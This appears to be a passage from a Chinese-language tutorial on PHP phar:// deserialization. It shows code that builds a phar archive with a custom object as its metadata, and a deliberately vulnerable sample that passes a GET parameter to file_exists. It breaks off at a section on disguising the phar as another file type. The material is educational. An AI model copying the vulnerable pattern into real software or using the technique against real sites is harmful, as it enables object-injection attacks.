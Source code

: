 ####### 4.漏洞触发点
```
漏洞触发点在使用phar://协议读取文件的时候，文件内容会被解析成phar对象，然后phar对象内的meta-data会被反序列化。PHP一大部分的文件系统函数在通过phar://伪协议解析phar文件时，都会将meta-data进行反序列化
```
####### 构造代码
```php
<?php
    class TestObject {
		public $name="nihoa";
		public $pass = "你好吗";
	}//自己写的对象
    @unlink("phar.phar");
    $phar = new Phar("phar.phar"); //后缀名必须为phar
    $phar->startBuffering();
    $phar->setStub("<?php __HALT_COMPILER(); ?>"); //设置stub
    $o = new TestObject();
    $phar->setMetadata($o); //将自定义的meta-data存入manifest
    $phar->addFromString("test.txt", "test"); //添加要压缩的文件
    //签名自动计算
    $phar->stopBuffering();
?>
```
######利用的漏洞代码
```php
<?php
		class TestObject {
		public $name;
		public $pass;
		public function __destruct()
		{
			echo $this->name;
			echo $this->pass;
			echo 123;
		}
	}
file_exists($_GET['a'])
```
![Alt text](100.jpg)
###### 将phar伪造成其他格式的文件
```php
<?php
    class TestObject {
    }
```